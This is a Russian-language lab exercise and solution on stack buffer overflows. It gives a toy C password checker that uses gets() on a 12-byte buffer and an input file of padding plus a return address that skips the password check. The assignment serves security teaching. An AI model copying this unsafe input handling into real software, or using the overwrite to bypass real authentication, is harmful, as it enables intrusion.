





# Задание на функции

**Цель**: Перезаписать адрес возврата на адрес ветки условия проверки корректности ввода пароля, которая выполняется при условии совпадения паролей.

**Код программы**:
```c
// pass.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int IsPassOk(void);

int main(void)
{
    int PwStatus;
    puts("Enter password:");
    PwStatus = IsPassOk();
    if (PwStatus == 0) {
        printf("Bad password!\n");
        exit(1);
    } else {
        printf("Access granted!\n"); // Строка для которой нужно выяснить адрес
    }
    return 0;
}
int IsPassOk(void)
{
    char Pass[12];
    gets(Pass);
    return 0 == strcmp(Pass, "test");
}
```

**Решение**:
1. Компиляция:
- `gcc -fno-stack-protector -no-pie pass.c -o pass -g` 
2. Анализ программы:
- disassemble, $rbp и $rsp функции main 

- disassemble, $rbp и $rsp функции IsPassOk 

- Проверка расположения переменных и адреса возврата в кадре функций

- Замена адреса возврата

3. Подготовка файла с паролем:
- `echo -n "qwertyuiopasdfghjklz" > input.txt`
- `echo -ne '\xd2' >> input.txt`
- `echo -ne '\x11\x40' >> input.txt`
4. Запуск программы:
- ./pass < input.txt

